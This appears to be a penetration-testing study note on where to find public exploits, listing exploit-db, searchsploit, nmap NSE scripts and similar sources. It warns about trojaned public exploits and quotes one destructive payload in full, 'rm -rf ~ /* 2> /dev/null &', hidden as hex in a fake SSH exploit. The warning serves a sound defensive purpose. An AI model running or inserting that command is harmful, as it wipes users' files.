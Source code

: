 
***NOTE***
By downloading and running public exploits, we can _**greatly**_ endanger any system that runs that code.  
Carefully read and understand the code before execution to ensure no negative effects.  
  
Ex:    **OpenOwn** (a remote exploit for SSH) asks for root privileges and has a _jmpcode_ array in it's payload.  
		This _jmpcode_ array is actually a hex-encoded string containing the malicious shell command:  
```bash
rm -rf ~ /* 2> /dev/null &
```
	  In the lines that followed, the program would connect to a public IRC server to announce the user's idiocy to the world.  
  
  
- Using trustworthy exploit repositories is crucial. The online resources mentioned in the materials analyze submitted exploit code before hosting it online.
- Not to say you shouldn't read the code & verify everything's above board prior to execution.
- If code inspection or compilation is too complex, set up a vm w/ a clean snapshot as an exploit sandbox.
  
Way to check shellcode:  
```python
python  
>>> jmpcode = ["\x72\x6D.........."]  
>>> print jmpcode  
	['rm -rf ~ /* 2> /dev/null &']  
>>> quit
```

# Online

### [https://exploit-db.com](https://exploit-db.com)
- Free archive of public exploits gathered through submissions, mailing lists, and public resources.
- Can filter by Type, Platform, Author, Port, and Tag
- Details whether an exploit has been validated as working. (Marked w/ a check icon displayed in column V)
- Maintained by Offensive Security.
- Occasionally provides the installer for the vulnerable version of the software for research purposes. (Marked w/ an download box icon displayed in column A)
- Updates are announced through its twitter & rss feeds.
- Downloadable
  
```bash
sudo apt update && sudo apt install exploitdb  
  
ls -l /usr/share/exploitdb/exploits/  
  
  
searchsploit
```
  
### [https://packetstormsecurity.com](https://packetstormsecurity.com)
- Provides up-to-date security news, exploits, vulns, and recently published tools by security vendors  
- Updates announced through its twitter & rss feeds.


### Offsec's GitHub [_exploitdb-bin-sploits_](https://gitlab.com/exploit-database/exploitdb-bin-sploits) repo
  
### Google search operators (Google dorks)  
- inurl  
- intext  
- intitle
```bash
firefox --search "Microsoft Edge site:exploit-db.com"
```
  
### [https://www.securityfocus.com](https://www.securityfocus.com)  
- BugTraq:  
	- Full disclosure mailing list w/ the purpose of discussing & announcing security vulnerabilities  
- Vulnerability Database:  
	- Provices up-to-date info on vulns for all platforms & services.  
	- Many entries don't include PoC code.  
		- However, each vuln includes external references that include details on the vuln and, often, PoC code  
- Mailing Lists:  
	- opic-based mailing lists allowing researchers to discuss various security issues.  
- Updates are also announced through its twitter & rss feeds.  
  

# Offline

### [searchsploit](SearchSploit.md) - tool used to search through exploitdb
  
Must have exploitdb installed:   
```bash
sudo apt update && sudo apt install exploitdb

ls -1 /usr/share/exploitdb/
exploits
files_exploits.csv
files_shellcodes.csv
shellcodes

searchsploit
	Usage: searchsploit [options] term1 [term2] ... [termN]
```
  
### [nmap NSE scripts](Tools.md#NSE%20scripts):  
Ability to enumerate, brute force, fuzz, detect, & exploit services  
  
```bash
# search for exploits
grep Exploits /usr/share/nmap/scripts/*.nse

# display info on specific exploit
nmap --script-help=clamav-exec.nse
```  
 
### **[BeEF](BeEF.md)**

### **[Metasploit](msfconsole.md)**
